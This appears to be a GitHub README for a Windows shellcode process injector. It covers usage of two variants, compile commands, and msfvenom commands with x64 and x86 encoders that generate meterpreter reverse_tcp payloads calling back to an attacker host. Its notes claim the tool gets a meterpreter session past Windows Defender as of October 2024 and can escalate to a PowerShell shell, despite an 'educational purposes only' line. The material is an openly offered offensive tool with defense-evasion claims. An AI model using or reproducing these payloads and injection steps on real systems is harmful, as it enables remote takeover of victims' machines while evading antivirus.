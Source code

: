 # Shellcode Process Injector

This project contains two variants of a shellcode injector for Windows that injects shellcode into a specified target process. The two versions differ in how they identify the target process for injection: one uses a hardcoded process name, and the other allows the user to specify a process ID (PID) at runtime.

## Variants

### Shellcode_ProcessInjector_auto
1. Open the source file and modify the `processName` variable to target the desired process.
2. Compile the program.
3. Run the executable.

### Shellcode_ProcessInjector_manual
1. Compile the program.
2. Run the executable and enter the PID of the target process when prompted.

## ShellCode Generation 
### 64-Bit Version
   - Example of Shellcode generation commands for 64-bit Targets
   - Shellcode used to open `calc.exe`:
     ```c
     msfvenom -p windows/x64/exec cmd=calc.exe -f c -e x64/zutto_dekiru
     ```
   - Shellcode for `windows/x64/meterpreter/reverse_tcp` (64-bit):
     ```c
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f c -e x64/zutto_dekiru
     ```

### 32-Bit Version
   - Example of Shellcode generation commands for 32-bit Targets
   - Example shellcode used to open `calc.exe` on a 32-bit application:
     ```c
     msfvenom -p windows/exec cmd=calc.exe -f c -e x86/shikata_ga_nai -b "\x00\x0A\x0D" --smallest
     ```
   - Shellcode for `windows/meterpreter/reverse_tcp` (32-bit):
     ```c
     msfvenom -p windows/meterpreter/reverse_tcp LHOST=<hostIP> LPORT=<hostPORT> -f c -e x86/shikata_ga_nai -b "\x00\x0A\x0D" --smallest
     ```
## Requirements

- Windows OS
- Visual Studio or a compatible C compiler
- `msfvenom` from the Metasploit Framework

## Compilation

To compile the variants, use the following command:

```bash
gcc -o Shellcode_ProcessInjector_auto Shellcode_ProcessInjector_auto.c
gcc -o Shellcode_ProcessInjector_manual Shellcode_ProcessInjector_manual.c
```

## Notes
- Ensure that the target process is running before injecting shellcode.
- This code is intended for educational purposes only. Ensure you have permission to test on any target processes.
- This will let you to get a meterpreter session that Bypasses Windows Defender as of October 2024
- The Meterpreter Session you get will be limited, but you can still get a powershell shell
![image](https://github.com/user-attachments/assets/5c3821b7-67b6-4785-9506-23520e9cb545)



